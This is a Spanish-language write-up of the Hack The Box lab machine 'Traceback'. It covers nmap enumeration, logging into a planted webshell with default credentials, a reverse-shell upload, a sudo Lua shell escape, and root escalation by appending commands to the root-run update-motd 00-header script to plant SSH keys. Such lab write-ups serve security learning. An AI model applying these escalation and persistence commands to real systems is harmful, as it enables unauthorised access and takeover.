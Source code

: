 ```yaml
---
title: "HTB – Traceback"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2020/traceback.png"
categories:
  - WriteUp
---
```


OS 				 | LINUX
Desarrollado por | Xh4H
Dificultad 		 | Fácil
Liberación 		 | 14 marzo 2020
Puntos 			 | 20

## Enumeración

Al usar nmap utilizando **nmap -sCV -A 10.10.10.181** solo encontramos que está abierto el puerto 22 (SSH) y 80 (web).

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-20 01:42 BST
Nmap scan report for 10.10.10.181
Host is up (0.079s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
| 256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_ 256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=4/20%OT=22%CT=1%CU=43037%PV=Y%DS=2%DC=T%G=Y%TM=5E9CF01
OS:1%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=102%TI=Z%CI=Z%II=I%TS=A)OPS( 
OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11
OS:NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN( 
OS:R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT ADDRESS
1 77.21 ms 10.10.14.1
2 77.32 ms 10.10.10.181

OS and Service detection performed. Please report any incorrect results at Nmap done: 1 IP address (1 host up) scanned in 24.47 seconds
```

Por lo que se empieza a buscar información en el código fuente de la página web, mientras se ejecuta la **dirbuster** para buscar paginas ocultas y poder acceder a ellas.

No se encuentra información importante por lo que se utiliza google para buscar nuevas soluciones. Encontramos que el creador posteo en su twitter algunas webshell interesantes.

![Traceback 1](/assets/images/post/2020/traceback1.png)

Al usar este nuevo listado en **dirbuster** con el nuevo listado descubrimos un archivo llamado smevk.php y al revisar el codigo de este en internet descubrimos que se puede acceder con el usuario admin/admin

![Traceback 2](/assets/images/post/2020/traceback2.png)

Acá nos permitirá crear nuestro propio archivo php, en este caso crearemos un php con una shell reverse, al ejecutarla accedemos a nuestra primera shell.

## 1° Shell

Al cargar esta shell accedemos al sistema con el usuario webadmin, por lo que nos ponemos a revisar sus carpetas, el historial y los permisos que este posee con **sudo –l**

Se ve que el usuario creó un archivo privesc.lua y despues lo elimina, sin antes ejecutarlo

```
Matching Defaults entries for webadmin on traceback:
	env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
	(sysadmin) NOPASSWD: /home/sysadmin/luvit
```

<p>Nos damos cuenta que podemos ejecutar un programa sin la password del usuario sysadmin, además creamos uno archivo lua, en el cual posea el comando <b>echo 'os.execute("/bin/sh")' > racso.lua</b>. Una vez que lo ejecutamos tal como se mostró en el historial podemos acceder a la shell del usuario</p>

## Shell Usuario

<p>Al escalar el privilegio obtenemos la primera flag, luego empezamos a buscar alguna otra forma de subir el privilegio a root, lo primero que vemos son los procesos <b>ps –aux</b> y nos llama la atención una que es ejecutada por <b>root</b> <i>(/bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/)</i> y lo que nos dice que se ejecuta el archivo 00-header cada vez que hay una conexión exitosa de SSH.</p>

Por otro lado, encontramos en la carpeta **.ssh** del usuario los archivos de autorización de las conexiones, es por ello que, ingresaremos nuestro propio ssh-rsa a este archivo para que sea válido al momento de conectarnos

- Creamos nuestro rsa con **ssh-keygen -t rsa**
- Copiamos este rsa.pub generado en el archivo **authorized_keys** escribiendo
	echo “TODO LO QUE EL ARCHIVO ID_RSA.PUB CONTENGA” >> /home/sysadmin/.ssh/authorized_keys
- Ejecutamos una conexión ssh desde nuestro equipo utilizando el id_rsa creado **ssh –i id_rsa sysadmin@10.10.10.181**

Lo que permitirá acceder vía ssh a la máquina, el problema es que hasta el momento mantenemos el mismo nivel de usuario.

Al seguir investigando sobre update-motd.d que está en la carpeta /etc/ nos percatamos que el usuario sysadmin tiene permiso de escritura para el archivo 00-header, por lo que ingresaremos un comando donde nos mostrará la flag.

<p>Si escribimos echo <b>"cat /root/root.txt" >> /etc/update-motd.d/00-header</b> tal como averiguamos antes cargará este comando al momento de acceder a la termina vía ssh mostrandonos la flag al acceder, sin obtener la shell root.</p>

## Root shell

No es necesario acceder a esta shell si solo quieren obtener las flag, pero si de igual forma quieren acceder se puede usar el mecanismo anterior pero ahora guardando la clave publica en el archivo authorized_keys del root, para ello escribimos lo siguiente

```
echo "echo \" LO QUE ESTA EN EL ID_RSA.PUB \" >> /root/.ssh/authorized_keys" >> /etc/update-motd.d/00-header
```

Ingresamos nuevamente como sysadmin, para que ejecute el comando y ahora al salir de la maquina podremos volver a conectarnos, pero con el usuario root

```
root@traceback:~# id && date uid=0(root) gid=0(root) groups=0(root) Sun Apr
```

![Racso](https://www.hackthebox.com/badge/image/159593)